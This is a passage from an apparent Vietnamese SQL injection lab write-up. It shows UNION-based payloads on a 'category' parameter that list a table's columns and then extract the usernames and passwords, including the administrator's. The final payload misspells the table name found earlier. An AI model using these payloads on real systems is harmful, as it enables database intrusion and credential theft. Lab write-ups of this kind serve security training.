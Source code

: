 Có rất nhiều table trả về trong respone, ta tiến hành kiểm tra từng table một 

Ta có thể xem tên các cột trong một table bất kì với câu lệnh `select column_name from information_schema.columns where table_name='table_name_here'`

Kiểm tra từng table một, ta thấy một table có tên `users_jowdcd`

Try vấn để xem tên cột của table `users_jowdcd`

`?category=Pets'+UNION+SELECT+COLUMN_NAME,NULL+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+TABLE_NAME='users_jowdcd'--`

![](images/30.png)
 
Ta thấy 2 cột có tên là `username_vukpxc` và `password_cmyeop`

Truy vấn xem giá trị 2 cột

`?category=Pets'+UNION+SELECT+username_vukpxc,password_cmyeop+FROM+users_jowdc--`

![](images/31.png)

Ta thấy username và password administrator được trả về trong respone
